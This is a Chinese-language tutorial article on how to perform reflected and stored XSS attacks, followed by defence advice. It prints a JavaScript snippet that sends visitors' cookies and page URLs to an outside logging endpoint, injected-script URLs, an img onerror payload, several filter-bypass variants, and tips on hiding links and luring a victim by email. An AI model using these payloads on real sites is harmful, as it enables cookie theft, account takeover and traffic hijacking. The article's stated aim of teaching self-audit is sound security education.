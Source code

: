 # [如何实施一次XSS攻击](https://zhuanlan.zhihu.com/p/91437488)

[![isjs](xss-how-imgs/v2-0f3b4a5ced8e959c10018df33034cccb_xs.jpg)](https://www.zhihu.com/people/isjs)

[isjs](https://www.zhihu.com/people/isjs)

公众号：js前端架构

关注他

1 人赞同了该文章

**注意：本文主要目的是使大家了解不同的攻击方式，从而进行网站自查。所以只会展示部分代码。切勿以此方式牟利，合理、合法使用。**

------

**什么是XSS攻击？**

xss攻击，全称跨站脚本攻击*（Cross Site Scripting）*是一种将攻击脚本放置在被攻击页面，实现窃取用户信息，伪造用户行为的攻击方式。XSS攻击方式多变，主要危害如下：

**1.窃取用户 Cookie，Token，登录信息，伪造用户行为。**

**2.动态修改站点页面结构，实现广告挂载。**

**3.对站点访问进行重定向，实现流量劫持。**



XSS 是 web 攻击中最常见的攻击方法之一。根据攻击方式，我们把 XSS 攻击分为两大类：

1.**XSS 反射型攻击**，攻击脚本数据不进行存储。攻击范围小，持续时间短，易于防守，适用于点对点攻击。

2.**XSS 存储型攻击**，攻击脚本存储在数据库中。攻击范围大，持续时间长，不易防守，适用于范围性攻击。

本篇文章将会举例来实现两种攻击，并列举防御方式。



**一.攻击脚本准备**

XSS 攻击也叫跨站脚本攻击，其中的核心是跨站和脚本。首先我们需要有一个攻击脚本，其次我们的脚本要跨站引用到被攻击页面。这样就可以完成一次攻击。攻击成功后，如果需要对用户数据进行保存，我们还需要准备一个数据接收接口。

***1.准备数据接收接口：\***

使用 Node 搭建一个服务，允许跨域请求，并对请求参数进行保存。接口使用这样的方式调用：

```text
https://open.isjs.cn/logStash/push?cookie=123&url=www.***.com 
```

cookie 为被攻击者的 Cookie 信息，url 为攻击发生的页面 url。

***2.准备攻击脚本\***

准备好了数据接收接口后，我们还需要制作一个用于跨站的攻击脚本，代码如下：

```js
(function() {
  var isjs_xss = document.createElement("script");
  isjs_xss.src = "https://open.isjs.cn/logStash/push?cookie="+document.cookie+"&url="+window.location.href;
  var isjs_s = document.getElementsByTagName("script")[0];
   isjs_s.parentNode.insertBefore(isjs_xss, isjs_s);
})();
```

攻击脚本引入到被攻击页面，需要用 script 标签：

```text
<script type="text/javascript" src="https://open.isjs.cn/xss.js?v=110"></script>
```

如上，只要将攻击脚本标签顺利的加载到被攻击者小明的页面中，小明的 cookie 信息就被我们窃取了。



**二.XSS反射型攻击**

XSS 反射型攻击也叫做非存储型攻击，其主要特征是攻击脚本不进行存储。下面我们详细的讲解此类攻击的发起。

***1.攻击前提\***

小明是 [http://www.isjs.cn](https://link.zhihu.com/?target=http%3A//www.isjs.cn) 博客的管理员，拥有删除发言，删除帖子的权限。

小王是一名程序员，他发现最近该论坛上有很多帖子在吐槽他最喜欢的明星。

小王觉得要为自己喜欢的明星做点什么，他准备把这些吐槽的帖子都删除掉。

经过研究，小王发现 [http://www.isjs.cn](https://link.zhihu.com/?target=http%3A//www.isjs.cn) 的登录信息 Token 存储在 Cookie 中。

只要拿到小明的 Token, 就可以拥有小明的登录信息，从而删除帖子。

据此，小王决定对小明发起一次 XSS 的攻击。

***2.攻击入口\***

找到了攻击的方式后，我们需要找一个入口来实施攻击。

也就是找到该网站的一个薄弱点。

通过一段时间的观察，小王发现了一个页面存在漏洞：

![img](xss-how-imgs/v2-b7f0bc08016da8a192c1d6397a777805_720w.jpg)

这个页面的地址栏中包含了页面展示的数据，并且是通过 .html() 的方式渲染页面。

这样的页面就可以作为一个攻击入口。

小王对地址进行改造，利用渲染金额的代码，将攻击脚本引用到页面中：

```text
http://www.isjs.cn/recharge.html?amount=100<script type="text/javascript" src="https://open.isjs.cn/xss.js?v=110"></script>&channel=wx&time=120
//此处可以用短链接转换工具进行加工，使攻击脚本更隐蔽。
```

***3.发起攻击\***

接下来，只需要想办法让小明点击这个链接，就可以攻击成功了。

小王写了一封邮件给小明：

![img](xss-how-imgs/v2-f98e3a493900f5dfe2a91a84879626e4_720w.jpg)

用花言巧语来诱骗被攻击者点击链接，从而完成攻击。

以上，就是一个反射型攻击的例子，通过对域名的恶意修改，实现脚本注入。

此类攻击一般不会造成大规模的攻击，攻击方式比较简单，成本较低。同样也比较容易防范。

***4.如何防御？\***

XSS 反射型攻击比较好防御，要求我们在开发页面时尽量做到少用 .html() 来做页面渲染，尤其是 url 中携带的变量，在渲染时一定要格外小心。

另外也提醒我们，遇到不明身份的链接，不要随便打开。很多攻击者会对植入链接做短链转换，光看地址根本无法分辨是否携带攻击脚本。





**三.XSS存储型攻击**

存储型与非存储型的最大区别，是攻击脚本是否被数据库存储。两者比较，存储型攻击会造成较大的损失，所以我们要重点关注下存储型攻击发起的方式。

***1.攻击前提***

小王攻克了管理员小明的账号后，发现有一部分帖子小明并没有删除的权限。

针对这部分帖子，小王打算攻击发帖的每一个人，并用每一个用户的账号信息修改对应的评论内容。

***2.攻击入口***

经过尝试后，小王发现博客的留言板功能存在攻击漏洞，

![img](xss-how-imgs/v2-bef90f172772fc4fa602332c85f4a994_720w.jpg)

留言时可以插入图片，有可能是未对输入内容做过滤，可以在评论中使用 html 标签。

***3.发起攻击***

于是小王利用此处漏洞发起攻击：

![img](xss-how-imgs/v2-3a2219926dd6c6fed6c8020d241eca11_720w.jpg)

可以看到，攻击脚本被提交到了后台，后台存储后渲染到页面中。
至此，就形成了攻击，只要是查看过这个帖子的用户，Cookie 都会被盗取。

***4.攻击绕过***

上面举例中的攻击方式比较顺利，但是现在很少会有网站会不对参数做校验就进行存储。

每个网站都会存在一些防御策略，比如前端校验，后台校验，渲染前替换等等。

所以说简单的攻击方式很难形成有效的攻击。但是针对不同的防御策略我们可以做攻击绕过。

例如：

***防御方案1：***后台对 <script> 标签做拦截

***绕过方式：***使用 img，Link 标签替代 script 标签，例如：

```text
<img src="#" onerror="javascript:this.src='https://open.isjs.cn/logStash/push?cookie='+document.cookie+'&url='+window.location.href;">
```



***防御方案2：***后台入库前对 <script> 标签做删除

***绕过方式：***使删除后的结果仍是一条正常语句，例如

```text
<scri

<script type="text/javascript" src="https://open.isjs.cn/xss.js?v=110"></script>

pt type="text/javascript" src="https://open.isjs.cn/xss.js?v=110"></script>
```

***绕过方式2：***使用字符填充，或者大小写混合方式绕过，例如

```text
<sc%00ript type="text/javascript" src="https://open.isjs.cn/xss.js?v=110"></sc%00ript>

<sCrIpt type="text/javascript" src="https://open.isjs.cn/xss.js?v=110"></sCrIpt>
```



***防御方案3：***后台拦截一切带 src 属性的标签

***绕过方式：***使用行内样式执行攻击代码，例如下面的流量劫持示例：

```text
//老ie劫持
<p style="color: expression(window.location.href = 'www.isjs.cn')"></p>

//一个撑满屏幕的遮罩，不论点哪里都会被劫持跳转
<div style="width: 100%;position: fixed;top: 0;left: 0;right: 0;bottom: 0;z-index: 9999;" onClick="window.location.href = 'http://www.isjs.cn'"></div>

<a href="javascript:alert('xss')">link</a>
```

拦截绕过的方式特别多，我们这里只简单举例

有需要了解的可百度关键字：**XSS 绕过**



**四.XSS如何防御？**

我们从前往后讲下各个节点对XSS的防护:

***前端：***

1. *对提交参数进行校验，提高攻击难度*

*2. 对接口返回值尽量使用 .text() 方式渲染，避免 .html() 导致攻击脚本的渲染。*

*3. 避免使用 eval，外部链接，外链组件等降低网站安全性的方案。*

*4. 定期对页面请求进行梳理，防止攻击扩散*



***后台：***

1. *对前端提交的参数进行 XSS 过滤*

*2. 对即将入库的参数进行过滤，避免攻击脚本的存储*



***运维：***

1. *选择优秀的 WAF 保护应用程序的安全*

*2. nginx 记录可疑的 url 请求，并排查是否存在反射攻击，尽早发现*



**五.总结**

本文带大家对 XSS 攻击进行了解，作为前端开发工程师，XSS 就是我们需要了解的安全基础。利用 XSS 去检测自己站点的安全性，防患于未然。